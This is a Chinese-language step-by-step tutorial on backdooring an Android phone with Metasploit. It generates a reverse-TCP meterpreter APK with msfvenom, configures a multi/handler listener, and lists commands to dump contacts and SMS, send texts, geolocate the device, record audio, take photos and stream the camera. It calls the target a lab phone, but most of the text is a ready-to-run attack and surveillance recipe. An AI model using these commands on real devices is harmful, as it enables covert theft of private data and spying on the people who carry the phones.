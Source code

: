 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安卓手机或者模拟器

# 二、木马生成

1. 生成一个APK后门

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 R>k.apk
```

# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf![1643003592876](https://image.201068.xyz/assets/1643003592876.png)

2. 载入监控模块  msf中输入：  

   `use exploit/multi/handler`

3. 载入payload MSF终端中输入： 

   `set payload android/meterpreter/reverse_tcp`

   ![1643003612323](https://image.201068.xyz/assets/1643003612323.png)

4. 配置payload  MSF终端中输入：`show options`

5. 配置监控IP MSF中输入：`set lhost  192.168.70.3`

6. 配置监控端口  MSF中输入：`set lport 4567`

7. 执行监控  msf终端中输入： 

   `run`![1643003633911](https://image.201068.xyz/assets/1643003633911.png)

# 四、攻击利用

1. 将木马上传到靶机

2. 在靶机上执行木马

3. 完成攻击利用

   ![1643003654523](https://image.201068.xyz/assets/1643003654523.png)



获取手机通讯录： `dump_contacts`

获取短信记录：`dump_sms`

控制实验手机发短信：`send_sms -d 15330252525 -t "hello"`

获取实验手机GPS定位信息：`geolocate`

获取实验手机Wi-Fi定位信息：`wlan_geolocate`

控制实验手机录音：`record_mic -d  5`

获取实验手机相机设备：`webcam_list`

控制实验手机拍照 ：`webcam_snap`

**直播实验手机摄像头**：`webcam_stream`